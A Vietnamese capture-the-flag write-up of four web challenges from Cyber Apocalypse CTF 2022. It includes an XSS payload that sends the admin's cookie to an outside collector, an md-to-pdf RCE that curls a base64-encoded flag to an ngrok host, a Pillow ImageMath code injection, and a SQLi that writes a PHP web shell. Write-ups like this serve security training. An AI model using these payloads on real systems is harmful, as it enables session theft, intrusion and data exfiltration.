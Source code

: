 # Cyber Apocalypse CTF 2022

# **Kryptos Support**

Website cho phép ta gửi report cho admin

![Untitled](writeup_media/Untitled.png)

Thử gửi payload XSS đơn giản

```jsx
<script>
fetch('https://eoor1c6mm76wo38.m.pipedream.net/?'+document.cookie)
</script>
```

Nhận thấy ở endpoint ta đã có cookie session của admin.

![Untitled](writeup_media/Untitled%201.png)

Dùng dirsearch ta có page `/admin`

![Untitled](writeup_media/Untitled%202.png)

Thêm cookie ta vừa lấy được vào và truy cập `/admin`, ta được redirect về `/tickets`

![Untitled](writeup_media/Untitled%203.png)

Góc trên trái có phần `Setting`, truy cập vào ta được page đổi password (nhưng không cần password cũ)

![Untitled](writeup_media/Untitled%204.png)

Xem request gửi lên, thấy có param `uid`

![Untitled](writeup_media/Untitled%205.png)

Thử từng `uid`, thấy `uid=1` ta đã đổi ngay được tài khoản của admin.

![Untitled](writeup_media/Untitled%206.png)

Login vào user `admin` với password ta vừa đổi

![Untitled](writeup_media/Untitled%207.png)

<aside>
🚩 HTB{x55_4nd_id0rs_ar3_fun!!}

</aside>

# **BlinkerFluids**

Website cho phép ta tạo file PDF từ cú pháp của Markdown

![Untitled](writeup_media/Untitled%208.png)

Sau một hồi tìm hiểu, mình phát hiện phiên bản `md-to-pdf` `4.1.0` có lỗi RCE: [https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

Craft payload để thực hiện OOB đọc flag (ta có thể dùng `curl` do trong `Dockerfile` có cài đặt cả `curl`.

```markdown
---js
((require("child_process")).execSync("curl http://13c6-2402-800-61ae-c62f-a5a4-2b2-9fb1-5177.ngrok.io/?a=$(cat /flag.txt | base64)"))
---
RCE
```

![Untitled](writeup_media/Untitled%209.png)

<aside>
🚩 HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

</aside>

# **Amidst Us**

Đập vào mặt ta là một trang web khá sú. Sau một hồi test chức năng thì có vẻ website này cho phép ta blend màu cho ảnh được upload lên.

![Untitled](writeup_media/Untitled%2010.png)

Tìm thử version `8.4.0` của thư viện `PIL`, mình thấy có CVE hồi tháng 1/2022 [https://github.com/python-pillow/Pillow/pull/5923](https://github.com/python-pillow/Pillow/pull/5923)

Như vậy ta có thể thực hiện RCE thông qua hàm `ImageMath.eval()`. Trùng hợp thay trong challenge này cũng sử dụng hàm đó.

![Untitled](writeup_media/Untitled%2011.png)

Exploit thôi nào!

Craft payload để copy file `flag.txt` vào folder `static`

```python
225),\n\t\t\t\t\texec(\"import os\\nos.popen(f'cp /flag.txt ./application/static/flag1.txt')\"
```

Gửi payload

![Untitled](writeup_media/Untitled%2012.png)

Bonus: payload sau khi lên server sẽ như này

![Untitled](writeup_media/Untitled%2013.png)

Qua `/static/flag1.txt` để đọc flag

![Untitled](writeup_media/Untitled%2014.png)

<aside>
💡 HTB{i_slept_my_way_to_rce}

</aside>

# **Intergalactic Post**

Website này cho ta post địa email lên

![Untitled](writeup_media/Untitled%2015.png)

Đọc source code dễ nhận thấy challenge này sẽ về SQLi do phần insert email vào database không có phương thức nào chống SQLi

```php
public function subscribeUser($ip_address, $email)
{
    return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

Param `email` sau khi được post lên sẽ được check cú pháp → khó để thực hiện SQLi ở param này.

```php
public function store($router)
{
    $email = $_POST['email'];

    if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
        header('Location: /?success=false&msg=Please submit a valild email address!');
        exit;
    }

    $subscriber = new SubscriberModel;
    $subscriber->subscribe($email);

    header('Location: /?success=true&msg=Email subscribed successfully!');
    exit;
}
```

Tuy nhiên, website còn thêm `ip_address` vào database, trong đó địa chỉ IP có thể lấy từ header `X-Forwarded-For` do ta toàn quyền kiểm soát → ta sẽ thực hiện SQLi ở đây

```php
public function getSubscriberIP()
{
    if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)) {
        return $_SERVER["HTTP_X_FORWARDED_FOR"];
    } else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
        return $_SERVER["REMOTE_ADDR"];
    } else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
        return $_SERVER["HTTP_CLIENT_IP"];
    }
    return '';
}

public function subscribe($email)
{
    $ip_address = $this->getSubscriberIP();
    return $this->database->subscribeUser($ip_address, $email);
}
```

Payload để thực hiện SQLi to RCE

```sql
a','a'); ATTACH DATABASE '/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

Gửi payload

![Untitled](writeup_media/Untitled%2016.png)

Truy cập file php ta vừa tạo để thực hiện RCE list file trong thư mục `/`

![Untitled](writeup_media/Untitled%2017.png)

Đọc flag

![Untitled](writeup_media/Untitled%2018.png)

<aside>
🚩 HTB{inj3ct3d_th3_tru7h}

</aside>